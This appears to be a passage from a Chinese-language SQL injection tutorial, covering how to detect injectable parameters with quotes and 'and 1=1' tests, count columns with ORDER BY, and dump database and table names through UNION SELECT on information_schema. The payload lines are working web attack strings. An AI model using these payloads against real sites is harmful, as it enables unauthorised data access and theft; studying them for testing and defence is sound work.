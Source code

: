 例如后端SQL语句长这样

```sql
select * from article where artid = 1 and xxxxx;
```

GET的请求参数是artid，可以在参数值后面输入单引号，此时数据库无法执行就会报错，说明存在SQL注入

```sql
?artid=1'
 
# select * from article where artid = 1' and xxxx;
```

通过and 1=1 ，and 1=2 判断

```sql
?artid=1 and 1=1
?artid=2 and 1=2
# select * from article where artid = 1 and 1=1 and xxxx;
# 若and 1=1页面回显正常，and 1=2 回显不正常 ，则说明拼接成功（1=2 永远为假，SQL 查询结果为空，所以页面回显异常或无数据）
#这种差异说明你的输入 确实影响了 SQL 的逻辑，也就是说参数被直接拼接进 SQL 中，没有经过预编译或安全处理。这就是 SQL注入成立的证明。
```

需要注意的是，在测试**删除功能**时尽量不要使用`and 1=1`，否则可能会将数据全部删除

**字符型**

与数字型类似，只是要注意单引号/双引号/括号的闭合，可以在最后加上注释符把后面的闭合符号和语句直接注释掉

#### 判断字段数

```sql
?artid=1 order by 4
# 遍历数字，页面内容回显正常说明列数正确
```

order by 无法使用时，可以通过SELECT NULL判断

```sql
?artid=1 SELECT NULL, NULL, NULL, NULL
```

#### 暴库名

```sql
?artid=-1 union select 1, database(), 3, 4
```

#### 暴表名

```sql
?artid=-1 union select 1,group_concat(table_name), 3, 4 from information_schema.tables where table_schema=xxx
```

### information_schema.tables 

`information_schema` 是 MySQL 自带的**系统数据库**，里面存放了数据库的元数据（metadata），比如：

- 所有数据库的名字
- 每个数据库里的表名
- 每张表的字段名、索引等信息
